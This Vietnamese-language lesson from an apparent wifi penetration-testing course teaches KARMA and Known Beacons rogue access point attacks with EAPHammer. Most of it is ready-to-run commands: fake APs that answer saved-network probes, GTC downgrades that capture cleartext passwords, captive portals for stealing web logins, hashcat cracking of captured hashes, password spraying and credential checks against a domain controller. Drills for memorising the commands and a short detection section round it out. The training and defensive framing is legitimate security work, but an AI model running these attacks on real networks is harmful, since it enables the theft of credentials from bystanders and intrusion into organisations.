

> **Prerequisites**: [[07-eaphammer-toolkit|07. EAPHammer Toolkit Mastery]]
> **Objectives**:
> - Hiểu cơ chế PNL (Preferred Network List) và tại sao KARMA exploit được nó
> - Phân biệt KARMA, Loud KARMA, và Known Beacons attacks
> - Thực hiện KARMA attack để harvest EAP credentials từ nhiều clients
> - Biết khi nào dùng KARMA thay vì targeted Evil Twin

---

## Điều kiện khai thác

> [!note] Điều kiện bắt buộc
> - Nhiều clients trong wireless range đang probe cho saved networks (laptop ở sân bay, cafe, hội trường...)
> - WiFi adapter hỗ trợ AP mode
> - EAPHammer đã cài đặt
> - Không cần biết target SSID trước (đây là điểm mạnh của KARMA)

> [!tip] KARMA vs Targeted Evil Twin — khi nào dùng gì?
> - **Targeted Evil Twin** (Lesson 04): Biết target SSID, muốn attack specific network
> - **KARMA**: Không biết SSID, muốn harvest nhiều clients cùng lúc, recon environment
> - **Known Beacons**: Biết một số common SSIDs trong khu vực, muốn broadcast để attract clients

---

## Cơ chế tấn công

### Preferred Network List (PNL) Exploitation

![[img-08-karma-pnl-flow.svg]]
*Hình 8: KARMA attack — PNL probe/respond cycle và Known Beacons variant*

Mỗi thiết bị WiFi lưu một **PNL (Preferred Network List)** — danh sách tất cả networks đã từng kết nối. Khi thiết bị không kết nối vào network nào, nó liên tục broadcast **Probe Request frames** với SSIDs trong PNL:

```
Client device (background scanning):
  → Probe Request: "Do you know Starbucks-WiFi?"
  → Probe Request: "Do you know CorpWifi?"
  → Probe Request: "Do you know HOME-5G?"
  → (repeat every few seconds)
```

**KARMA mechanism**: Rogue AP lắng nghe tất cả Probe Requests và **respond với bất kỳ SSID nào được hỏi**:

```
Client: "Do you know CorpWifi?"
KARMA AP: "Yes! I am CorpWifi!" (Probe Response)
Client: [auto-connect to "CorpWifi"] → EAP auth begins → credentials captured
```

### KARMA vs Directed Probe Requests (Modern Challenge)

Modern operating systems (Windows 10+, iOS 14+, Android 10+) đã có **mitigation**:

- **Randomized MACs** trong probe requests để ngăn tracking
- **Directed probe requests** chỉ gửi đến known BSSIDs (không broadcast)
- **Passive scanning** thay vì active probing cho nhiều networks

**Attacker implication**: KARMA vẫn hoạt động với:
- Older devices (pre-2019)
- Devices chưa update
- Open networks (không có MAC randomization enforcement)
- Corporate devices với WiFi profiles cố định (không random MAC)

### Known Beacons — KARMA Variant

Thay vì passive respond to probes, Rogue AP **chủ động broadcast beacon frames** với nhiều SSIDs phổ biến:

```
Known Beacons AP broadcasts simultaneously:
  → Beacon: "Starbucks-WiFi"
  → Beacon: "attwifi"
  → Beacon: "CorpWifi"
  → Beacon: "eduroam"
  → Beacon: "AndroidHotspot"
  → [100+ common SSIDs]
```

Devices trong range thấy SSIDs trong PNL của mình → tự động kết nối.

### Loud KARMA vs Silent KARMA

| Mode | Behavior | Noise Level |
|------|---------|-------------|
| **Silent KARMA** | Chỉ respond to specific directed probes | Thấp |
| **Loud KARMA** | Respond to ALL probe requests, kể cả broadcast | Cao — dễ detect |
| **Known Beacons** | Broadcast popular SSIDs proactively | Medium |

---

## Quy trình tấn công

**Bước 1 — Xác định môi trường**

```bash
# Survey để biết có nhiều clients đang probe không:
sudo airmon-ng start wlan1
sudo airodump-ng wlan1mon
# Quan sát cột #Data và số clients — càng nhiều probe càng tốt
```

**Bước 2 — Launch KARMA với EAPHammer**

```bash
# Basic KARMA (respond to probes with EAP auth):
./eaphammer -i wlan0 --auth peap --creds --karma

# KARMA với WPA2 version explicit:
./eaphammer -i wlan0 --wpa 2 --auth peap --creds --karma

# KARMA với GTC downgrade (cleartext priority):
./eaphammer -i wlan0 --auth peap --creds --karma --negotiate gtc
```

> **Expected output**:
> ```
> [*] KARMA mode enabled — responding to all probe requests
> [*] Probe Request received: CorpWifi from AA:BB:CC:DD:EE:FF
> [*] Responding as CorpWifi
> [+] Client AA:BB:CC:DD:EE:FF connecting...
> mschapv2: username: jdoe challenge: ... response: ...
> [*] Probe Request received: Starbucks from 11:22:33:44:55:66
> [*] Responding as Starbucks
> ```

**Bước 3 — Known Beacons Attack**

```bash
# EAPHammer built-in known SSIDs list:
./eaphammer -i wlan0 --auth peap --creds \
    --known-beacons \
    --known-ssids-file /usr/share/eaphammer/wordlists/known_ssids.txt

# Custom SSID list (corporate context):
cat > /tmp/corp_ssids.txt << 'EOF'
CorpWifi
CorpWifi-5G
Corp-Guest
VPN-Corp
EOF

./eaphammer -i wlan0 --auth peap --creds \
    --known-beacons \
    --known-ssids-file /tmp/corp_ssids.txt
```

> **Expected output**: AP broadcasts beacons cho tất cả SSIDs trong file → clients tự connect.

**Bước 4 — Collect và process credentials**

```bash
# Tất cả captured hashes:
cat /tmp/wpe_log/wpe.log | grep "mschapv2\|gtc"

# Crack tất cả NetNTLMv1 hashes:
cat /tmp/wpe_log/wpe.log | grep "jtr NETNTLM" | cut -d' ' -f3 > all_hashes.txt
hashcat -m 5500 all_hashes.txt /usr/share/wordlists/rockyou.txt

# Cleartext từ GTC (không cần crack):
cat /tmp/wpe_log/wpe.log | grep "gtc"
```

**Bước 5 — Identify domain và scope**

```bash
# Từ KARMA output, ghi lại:
# - Usernames captured (có thể nhiều domain users từ corporate devices)
# - Domain format (CORP\jdoe hay jdoe@corp.local)
# - Validate credentials
nxc smb <DC_IP> -u jdoe -p 'cracked_pass'
```

---

## Biến thể & Bypass

### Airgeddon KARMA Mode

```bash
# Airgeddon có built-in KARMA trong Evil Twin menu:
docker run -it --net=host --privileged \
    -v /tmp:/io \
    v1s1t0r1sh3r3/airgeddon
# Chọn: Evil Twin attacks → options 5–9
```

### hostapd-mana KARMA (Direct)

hostapd-mana có built-in KARMA support:

```bash
# Thêm vào hostapd-mana config:
# mana_wpe=1
# mana_karma=1
# mana_credout=/tmp/mana_creds.txt
sudo hostapd-mana /etc/hostapd-mana/hostapd.conf
```

### KARMA cho Open Networks

Để target devices probing cho open networks (nhiều hơn trong public places):

```bash
./eaphammer -i wlan0 --auth open --captive-portal --karma
# Kết hợp với captive portal để steal web credentials
```

### EAP Spray kết hợp với KARMA

Khi KARMA harvest được usernames (từ EAP identity field) nhưng không crack được hashes:

```bash
# Bước 1: Thu thập usernames từ KARMA output
grep "username:" /tmp/wpe_log/wpe.log | awk '{print $2}' | sort -u > /tmp/usernames.txt

# Bước 2: Spray common passwords
./eaphammer --eap-spray \
    --interface-pool wlan0 \
    --essid CorpWifi \
    --password 'Password1' \
    --user-list /tmp/usernames.txt
```

---

## Cây quyết định



---

## Command Cheatsheet

**KARMA Modes**

```bash
# Basic KARMA (EAP auth)
./eaphammer -i wlan0 --auth peap --creds --karma

# KARMA + GTC downgrade
./eaphammer -i wlan0 --auth peap --creds --karma --negotiate gtc

# KARMA + autocrack
./eaphammer -i wlan0 --auth peap --creds --karma \
    --autocrack --wordlist /usr/share/wordlists/rockyou.txt

# KARMA + open network captive portal
./eaphammer -i wlan0 --auth open --captive-portal --karma
```

**Known Beacons**

```bash
# Built-in SSIDs list
./eaphammer -i wlan0 --auth peap --creds \
    --known-beacons \
    --known-ssids-file /usr/share/eaphammer/wordlists/known_ssids.txt

# Custom SSIDs
./eaphammer -i wlan0 --auth peap --creds \
    --known-beacons --known-ssids-file /tmp/custom_ssids.txt
```

**Credential Processing**

```bash
# Extract hashes từ log
grep "jtr NETNTLM" /tmp/wpe_log/wpe.log | awk '{print $3}' > hashes.txt
hashcat -m 5500 hashes.txt /usr/share/wordlists/rockyou.txt

# Extract usernames
grep "username:" /tmp/wpe_log/wpe.log | awk '{print $2}' | sort -u > usernames.txt

# Extract GTC cleartext
grep "gtc:" /tmp/wpe_log/wpe.log
```

---

## Daily Drill

**Thời gian**: 15 phút/ngày trong 7 ngày đầu.

**Drill 1 — KARMA vs Known Beacons choice**
Mục tiêu: nhìn scenario → chọn đúng command trong 5 giây.

```
Scenario A: Public airport, không biết SSIDs → --karma
Scenario B: Corporate campus, target là "CorpWifi" và "CorpVPN" → --known-beacons --known-ssids-file ssids.txt
Scenario C: Biết exact BSSID và SSID → Targeted evil twin (Lesson 04)
```

Luyện cho đến khi: decision là ngay lập tức.

**Drill 2 — KARMA command variants**
Mục tiêu: gõ basic KARMA + GTC variant mà không lookup.

```bash
./eaphammer -i wlan0 --auth peap --creds --karma
./eaphammer -i wlan0 --auth peap --creds --karma --negotiate gtc
```

Luyện cho đến khi: 2 variants gõ tự nhiên trong dưới 15 giây mỗi.

**Drill 3 — Credential extraction từ log**
Mục tiêu: parse wpe.log và extract hashes/cleartext trong dưới 30 giây.

```bash
grep "jtr NETNTLM" /tmp/wpe_log/wpe.log | awk '{print $3}' > hashes.txt
grep "username:" /tmp/wpe_log/wpe.log | awk '{print $2}' | sort -u
```

Luyện cho đến khi: commands gõ từ memory, không cần nhìn cheatsheet.

---

## Phát hiện & Phòng thủ

> [!warning] Detection Indicators
> **Multiple SSIDs from single BSSID**: Một MAC address broadcast nhiều SSIDs khác nhau → impossible với legitimate AP → WIDS alert.
> **Probe Response flood**: AP respond to probe requests cho nhiều SSIDs khác nhau → anomaly.
> **Rogue AP trong airspace**: WIDS/WIPS phát hiện AP không trong approved list.
> **Client roaming anomalies**: Clients kết nối vào AP mới không thuộc infrastructure.

> [!note] Mitigation
> - **802.11w Management Frame Protection**: Ngăn fake probe responses (phần nào)
> - **WIPS với rogue AP detection**: Cisco Prime, Aruba RAPIds — alert khi unknown AP xuất hiện
> - **Disable SSID auto-connect**: Trên corporate devices, disable automatic connection đến non-corporate SSIDs qua MDM
> - **MAC randomization**: iOS/Android randomize MACs khi probing → làm KARMA ít hiệu quả hơn
> - **Minimize PNL**: Remove old/unused networks khỏi saved networks list

---

## Lab Thực hành

| Platform | Machine/Module | Tại sao phù hợp |
|----------|---------------|----------------|
| HTB Academy | **Wi-Fi Penetration Testing Tools & Techniques** | KARMA và known beacons labs |
| HTB Academy | **Attacking WPA/WPA2 Wi-Fi Networks** | KARMA trong WPA enterprise context |
| Local VM | Kali + multiple victim VMs với saved networks | Test KARMA behavior với multiple clients |

---

## Field Manual Entry

> [!abstract] KARMA / Known Beacons — Quick Reference
> **Điều kiện**: Nhiều clients probing cho saved networks; không cần biết SSID trước
> **Quick KARMA**: `./eaphammer -i wlan0 --auth peap --creds --karma`
> **Known Beacons**: `./eaphammer -i wlan0 --auth peap --creds --known-beacons --known-ssids-file ssids.txt`
> **GTC combo**: Thêm `--negotiate gtc` → priority cleartext
> **Process creds**: `grep "jtr NETNTLM" wpe.log | awk '{print $3}' > hashes.txt && hashcat -m 5500 hashes.txt rockyou.txt`
> **Ref**: [[08-karma-known-beacons|08. KARMA & Known Beacons Attack]]
